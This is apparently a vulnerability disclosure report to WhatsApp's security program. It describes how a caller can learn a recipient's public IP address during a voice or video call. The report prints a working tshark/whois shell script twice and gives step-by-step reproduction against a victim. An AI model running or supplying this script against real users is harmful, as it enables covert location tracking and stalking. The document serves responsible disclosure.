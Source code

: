# Title

Leak the IP address of target whatsapp user

# Vuln Type

Privacy / Authorization

# Product Area

WhatsApp

# Description/Impact

Complete Details

===
Latest version of whatsapp application on all platforms is vulnerable to remote whatsapp user public IP disclosure.

It is observed that during a whatsapp (voice / video) call, application on caller side tries to establish a direct connection with the public IP address of recipient device. By filtering the Facebook and WhatsApp server IP addresses from the destination hosts, it is possible to reveal the correct public IP address of the target whatsapp user without his knowledge.

Following is a quick script to exploit this vulnerability,

--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------

# Impact


Possibility to map whatsapp users with their public IP will not just reveal whatsapp users' location information but can also be misused to track their physical movement by maintaining location history. Such direct mapping between user to IP information can also be misused to track users' surfing habits and to influence him.

Further, the public IP could be exploited to launch targeted attacks towards whatsapp user home or office.

# Repro Steps

## Setup

Users: UserA is has whatsapp detail of UserB

Environment: n/a

Browser: n/a

App version: <=latest version of whatsapp application on any platform

OS: All platforms except web

Description: UserA makes a whatsapp call to UserB and captures his public IP information without UserB's knowledge. Video PoC for better understanding of steps: 



## Steps

Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID

Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone


--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------


Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter

Step 4: Call victim on his whatsapp

Step 5: Disconnect the call once established

Step 6: Script will reveal the public IP address of the target

Step 7: Validate the public IP address on target phone

